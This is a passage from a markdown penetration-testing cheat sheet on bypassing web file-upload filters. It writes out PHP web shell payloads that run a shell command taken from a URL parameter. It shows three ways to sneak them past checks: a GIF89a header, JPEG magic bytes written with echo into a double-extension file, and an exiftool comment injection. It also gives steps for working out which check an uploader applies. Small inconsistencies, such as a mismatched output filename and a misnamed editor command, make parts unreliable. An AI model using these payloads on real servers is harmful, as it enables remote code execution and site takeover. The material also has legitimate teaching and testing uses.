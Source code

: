             ```php
            GIF89a; <?php system($_GET['cmd']); ?>
            ```
          </br> 
        - [ ] Magic Numbers Bypass
            - Magic numbers are the first bits of a file which uniquely identify the type of file.</br>
            - it can be helpful to look for file format signatures and inferring how the application is using them based on these signatures, as well as how these formats may be abused to provoke undefined behavior within the application.</br>[https://en.wikipedia.org/wiki/List_of_file_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)</br>
            - These bytes can be used by the system to “differentiate between and recognize different files” without a file extension.</br>
            - Magic numbers (File signatures) are typically not visible to the user, but, can be seen by using a hex editor or by using the ‘xxd’ command to read the file.
	
            ```bash
            └─$ xxd image.jpeg | head
            ```
            - Download hex editor: To corrupt a file, we require a hex editor. hexedit is a popular tool used for the same. You can install it using:
            ```bash
            └─$ sudo apt-get install hexedit
            ```
            - You can open the file by typing
            ```bash
            └─$ hexeditor image.png
            ```
            - To change a byte using hexedit, you simply have to move the cursor over a byte, and type what you would like to.</br>
            - To save and exit, press ctrl X and then Y.</br>
            - To make php file with jpg magic number use this code:
            ```bash
            └─$ echo -n -e '\xFF\xD8\xFF\xE0\n<?php system($_GET['cmd']); ?>'  > shell.jpg.pHp 
            or
            └─$ echo -e $'\xFF\xD8\xFF\xE0\n<?php system($_GET['cmd']); ?>'  > shell.jpg.pHp
            ```
            - You can also check it with this command:
            ```bash
            └─$ file shell.jpg.pHp
            shell2.png.pHp: JPEG image data
            ```
	    > How to find out uploader is checking file signature or its checking file extention and content-type?
	    > > Lets try to change the our shell extension to .jpg and try to upload it. It still fails. So we can conclude that it is not checking the file name extension. The same 		    happens if we change the content-Type to jpg and file name as it is. If its still fails we can understand that uploader is checking file signature.

	
		<br></br>		    
        - [ ] Comment in jpg file Bypass<br></br>
            > For file uploads which validate image size using php `getimagesize()`, it may be possible to execute shellcode by inserting it into the Comment attribute of Image 		    > properties and saving it as file.jpg.php.
            > You can do this with gimp or exiftools:
			```php
			└─$ exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
			└─$ mv file.jpg file.php.jpg
			```
